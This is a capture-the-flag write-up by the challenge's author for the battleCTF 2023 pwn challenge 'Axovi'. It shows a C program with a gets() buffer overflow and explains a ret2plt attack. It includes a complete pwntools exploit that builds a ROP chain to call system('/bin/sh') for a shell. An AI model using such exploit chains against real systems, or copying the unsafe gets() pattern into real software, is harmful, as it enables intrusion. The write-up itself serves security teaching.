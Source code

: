 # Axovi Writeup [Pwn]

Attached file: [axovi](datas/axovi)

Africa battleCTF 2023 challenge, i wrote this pwn challenge for [battleCTF 2023](https://github.com/0xbugpwn/battleCTF-2023).

This challenge involves exploiting a simple C program that uses unsafe functions like gets, leading to a buffer overflow vulnerability. Participants are tasked with executing arbitrary commands on the server by exploiting a `ret2plt` attack.

#### Source Code Analysis:

```c
//gcc -o axovi axovi.c -no-pie
#include <stdio.h>
#include <stdlib.h>

int main(){

    system( "echo 'Welcome to Africa battleCTF.\nTell us something about : '" );
    char buf[0x30];
    gets( buf );

    return 0;
}

```

Output of checksec

![Checksec](datas/checksec.png)

Section 

![section](datas/section.png)

> [!IMPORTANT]  
> * **Buffer Overflow Vulnerability**: The gets function does not check the input length, allowing stack overflow if the input exceeds `48 bytes` (0x30).
>
> * **No Stack Protection**: The program lacks stack canaries or other protections.
>
> * **Fixed Executable Layout**: The binary is compiled without `PIE` (`-no-pie`), meaning function addresses like `system` and `gets` are fixed.
>
> * **Writable Memory**: The `.data` segment (0x404028) can be used to store strings passed later to `system`.



#### Exploitation Plan:

1. Overflow the Buffer: Construct a payload to overwrite the `saved return pointer` of the function.

2. ROP Chain with `ret2plt`:

		* Redirect execution to `gets()` to store a command (e.g., `/bin/sh`) in a `writable memory` location.

		* Redirect execution to `system()` with the address of the stored command.

3. Send the Payload: Deliver the payload and trigger the exploit.



#### Understanding ret2plt:

The ret2plt (return-to-Procedure Linkage Table) attack leverages functions in the binary's `PLT (Procedure Linkage Table)` to perform arbitrary actions. Unlike code injection, `ret2plt` relies on legitimate code already present in the program.

##### Gadgets and Addresses Used:

* **pop_rdi (0x4011bb)**: Loads the address of writable memory into the `RDI` register (first argument for gets and system).

* **gets@plt (0x401040)**: Used to read a command and store it in memory.

* **system@plt (0x401030)**: Used to execute the stored command.

* **writable_mem (0x404028)**: `.data` segment used to store the `/bin/sh` string.

![poprdi](datas/poprdi.png)

![function](datas/functions.png)

##### Constructing the Payload:

1. Overflow the buffer with 0x30 (`48 bytes`) plus 8 bytes for the saved base pointer (`RBP`).

2. Build a ROP chain:

	* `pop_rdi` -> `writable_mem` (to prepare the input for `gets`).

	* Call `gets()` to store the command (`/bin/sh`).

	* `pop_rdi` -> `writable_mem` (to prepare the argument for system).

	* Call `system()` with `/bin/sh`.


#### Exploit Code:

```python
from pwn import *

context.arch = 'amd64'

sh = process('./axovi')

if args.REMOTE:
	sh = remote("pwn.battlectf.online", 1002)

# Gadgets and addresses

pop_rdi =  0x00000000004011bb # pop rdi ; ret
gets_plt = 0x401040 # gets@plt
system_plt = 0x401030 # system@plt
writable_mem = 0x404028 # .data

# Building the payload
payload = b'a' * (0x30 + 8)  # Buffer overflow and overwrite return pointer
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(gets_plt)      # Call gets() to store /bin/sh
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(system_plt)    # Call system() with /bin/sh

# Interacting with the target
print(sh.recv().decode())
sh.sendline(payload)          # Send the payload
sh.sendline(b"/bin/sh")       # Provide the command to gets()
sh.interactive()              # Switch to interactive mode
```

![Exploit](datas/exploit.png)

#### Final Notes:

This challenge introduces participants to ret2plt exploitation, teaching:

* Buffer overflow analysis.

* Using ROP gadgets to achieve arbitrary command execution.
